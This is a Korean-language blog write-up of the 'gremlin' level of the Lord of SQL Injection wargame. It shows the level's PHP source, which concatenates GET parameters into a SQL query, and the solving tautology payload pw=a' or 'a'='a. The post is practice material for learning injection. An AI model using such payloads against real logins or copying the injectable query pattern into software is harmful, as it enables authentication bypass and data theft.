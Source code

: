 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - gremlin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


예전에 `LoS` 문제를 풀어본 적 있었다.  

이 때는 [http://los.eagle-jump.org](http://los.eagle-jump.org)에서 풀었었는데, 원작자가 새로운 문제를 추가 해 서비스를 시작했다 해 다시 풀어보게 되었다.  

사이트 주소는 [http://los.rubiya.kr](http://los.rubiya.kr) 이다.  

<!--more-->

`LoS`는 따로 플래그를 입력하는 방식이 아니라 코드 안의 `solve()` 함수가 동작하도록 하면 문제가 풀린다.  

그리고 친절하게 내가 입력 한 값이 어떻게 쿼리에 들어가는지도 보여준다.  

첫 번째 문제는 `gremlin`이다.  

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------
query : select id from prob_gremlin where id='' and pw=''
----------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `if($result['id']) solve("gremlin");`에서 조건문을 통과해야 한다.  

즉, 쿼리를 실행했을 때 추출되는 id 값이 있으면 된다.  

실행되는 쿼리는 다음과 같다.  

```php
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

이 때, `id`와 `pw`의 값은 `GET` 방식으로 받아온다.  

`id`가 뭐든 상관 없기때문에 그냥 쿼리 결과가 참이 될 수 있는 값을 입력하면 될 것 같다.  

쿼리문을 완성하기 위해 아래와 같이 입력했다.  

```
?id=admin&pw=a' or 'a'='a
```

그 결과 아래와 같이 문제를 풀 수 있었다.  

```php
--------------------------------------------------------------------------------------------------
query : select id from prob_gremlin where id='admin' and pw='a' or 'a' = 'a'
--------------------------------------------------------------------------------------------------

GREMLIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

`Gremlin Clear!!`
